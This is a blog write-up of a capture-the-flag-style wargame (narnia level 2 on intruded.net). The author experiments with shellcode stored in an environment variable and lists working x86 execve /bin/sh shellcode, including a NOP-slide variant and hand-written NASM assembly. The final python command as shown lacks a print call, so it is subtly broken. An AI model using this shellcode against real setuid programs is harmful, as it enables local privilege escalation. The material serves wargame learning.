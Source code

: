 Title: intruded.net, narnia: level 2
Date: 2011/09/19 22:43
Tags: shellcode, intruded.net, narnia, x86
Author: Ken Ko

So, the previous shellcode exercise was inspired by my failure to pass level 2 of narnia @ intruded.net. Continuing, I found answers online because I wanted to know what I was doing wrong. At first, I tried: 

<code class="bash">
export EGG="\x31\xc0\xb0\x1d\xcd\x80"
./level2
</code>

But that would always end in a segmentation fault. Rewrote the nasm file, created a binary, did the objdump -d again on the target this time. Same resulting hexcode. 

So, looking online (cheating, I know), I found that a particular solution is to do this:

<code class="bash">
export EGG=`python -c 'print "\x90" * 128 +  "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x99\x52\x53\x89\xe1\xb0\x0b\xcd\x80"'`
</code>
(from <a href="http://binholic.blogspot.com/2010/08/wargame-narnia-at-intrudednet-level-2.html">binary world</a>)

Now, that left me with the idea that this NOP slide is actually necessary. To test the idea:

<code class="bash">
export EGG=`python -c 'print "\x90" * 128 + "\x31\xc0\xb0\x1d\xcd\x80"'`
</code>

To my dismay, this worked! The level2 binary appeared to be in a pause() state--waiting for my interrupt. The difference here is that we use python to actually print out the shellcode; but still, the question of whether the NOP slide is necessary is left unanswered. To test, we try:

<code class="bash">
export EGG=`python -c 'print "\x31\xc0\xb0\x1d\xcd\x80"'`
</code>

This works--now we know the NOP slide is unnecessary. Now I want to verify if the python print is anything special, so I replace it with a perl -e call:

<code class="bash">
export EGG=`perl -e 'print "\x31\xc0\xb0\x1d\xcd\x80"'`
</code>

<em>Interesting</em>. The fundamental difference between my attempts at calling shellcode from the environment variable, and the working attempt, is the need to print out the hexcode. I didn't think this would be necessary, but I suppose it makes sense--something to add to my todo list of "things to understand". 

<em>My initial guess is that when we call ret(); from the binary, we need python or perl or bash or whatever to print out the shellcode so that the program knows what machine code to actually run. Would this then be run in the .data portion of the binary? Haven't thought about these things in months...</em>

Moving on to shellcode that will execute an actual shell.

<code class="bash">
export EGG=`python -c '"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xeb\x1e\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\x31\xc0\x31\xdb\xb0\x01\xcd\x80\xe8\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x41\x41\x41\x41\x42\x42\x42\x42"'`
</code>

<strong>This is eventually what worked.</strong> 

The assembly that created this:

<code class="asm">
;
; file: execve.asm
; author: Ken Ko
;
; description: runs a /bin/sh shell using execve. turn off ASLR, thanks.
;
; compile:      nasm -felf execve.asm && ld -m elf_i386 -o execve execve.o
;

    SECTION .text           ; code section
    global main             ; make label available to linker as invoked by gcc
    global _start           ; make label available to linker w/ default entry
main:                       ; standard  gcc  entry point
_start:
    xor eax,eax             ; clean up registers
    xor ebx,ebx
    xor ecx,ecx
    xor edx,edx

    jmp short ender

    starter:

    pop ebx                 ; get address of string "/bin/sh#AAAABBBB"
    xor eax,eax             ; clean up registers

    mov byte [ebx+7 ], al   ; put a NULL in N
    mov [ebx+8 ], ebx       ; put address of the string in AAAA
    mov [ebx+12], eax       ; put 4 NULL in BBBB

    mov al, 11              ; syscall for execve
    lea ecx, [ebx+8]        ; load the address of the string location
    lea edx, [ebx+12]       ; load the address of the NULLs
    int 0x80                ; enter kernel mode

    xor eax,eax
    xor ebx,ebx
    mov byte al, 0x1
    int 0x80

    ender:
    call starter            ; put the address of the string on the stack
    db '/bin/sh#AAAABBBB'
</code>

I can go into detail later on, if I want. The comments should be enough, though.

<em>References</em>
<a href="http://asm.sourceforge.net/syscall.html">syscall list</a>
<a href="http://www.vividmachines.com/shellcode/shellcode.html#rt">vivid machines shellcode tutorial</a>
<a href="http://www.safemode.org/files/zillion/shellcode/doc/Writing_shellcode.html">safemode shellcode tutorial</a>

